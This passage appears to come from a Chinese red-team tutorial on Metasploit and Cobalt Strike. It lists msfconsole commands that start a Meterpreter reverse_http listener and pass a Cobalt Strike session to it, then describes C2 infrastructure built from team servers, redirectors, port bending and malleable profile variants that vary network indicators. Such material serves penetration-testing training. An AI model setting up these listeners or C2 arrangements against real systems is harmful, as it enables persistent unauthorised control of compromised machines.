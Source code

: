   

实战手法：

例如我们给一个会话MSF：

在MSF中监听一个http/https的会话：

msf5 > use exploit/multi/handler

msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_http# msf监听的地址，因为我的机器msf和cs都在同一个机器上所以ip相同

msf5 exploit(multi/handler) > set lhost 192.168.50.146

msf5 exploit(multi/handler) > set lport 1234

msf5 exploit(multi/handler) > run

然后在CS中

端口/host 跟MSF中的一样就行

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDB1qghCjSZ9iaUreF1z2c5FytdOOzHOpa0ZUMGULlUIkDOgWYxeDkz3NAVd1KJRTLicicrIIj6H8ENQQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

CS派生会话

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDB1qghCjSZ9iaUreF1z2c5FyFmavn5YWUWaj4N3QslP8Xsows5u4bRDibgey0dPhqbyFtcAicm0c9quw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

那么MSF中就能看到一个session了

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDB1qghCjSZ9iaUreF1z2c5FyTia1lEG0lzUibSnpdmeEQnyI7FHwdpz1tkcOlylC52mTnb2ibpXwJUX1g/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

基础设施整合 

Cobalt Strike 的分布式行动模型的基本思想是为你的每个行动阶段建立单独的团队服务器。

比如，将你 的后渗透基础设施和持久化基础设施分开。如果一个后渗透行为被发现，这个基础设施将被重建。一些行动阶段要求多个重定向器和通信通道选项。

我们可以将多个 HTTP、HTTPS 和 DNS 监听器绑定到一个单独的 Cobalt Strike 团队服务器。这些 payload 在它们的配置中也支持端口弯曲（port bending）。

这允许在你的重定向器和 C2 设置中使用 与你的通信通道（80，443或53）共同的端口，但是最好把这些监听器绑定到不同的端口以避免你的团 队服务器系统中发生端口冲突。 

为了使你的网络流量指标多样化，Cobalt Strike 的 C2 拓展文件可能包含多种变体。

变体是一种将当前文件的变量加到一个配置文件中的方法

当你定义每个 HTTP 或 HTTPS Beacon 监听器时，

你可以指定 一个配置文件变体。此外，你可以在一个团队服务器上定义多个 TCP 和 SMB Beacon，每一个都使用不同的管道和端口设 置。任一个来自同一团队服务器的出口 Beacon，一旦它们被部署在目标环境中，那么都可以控制任何 一个这些 TCP 和 SMB Beacon 的 payload。

  

![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDB1qghCjSZ9iaUreF1z2c5FymK1UqcDblEmjRelyMZtIU8MUpht1T8sundVbdTUsztMFk6lmMJcZJQ/640?wx_fmt=jpeg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

  

  

Payload 安全特性 
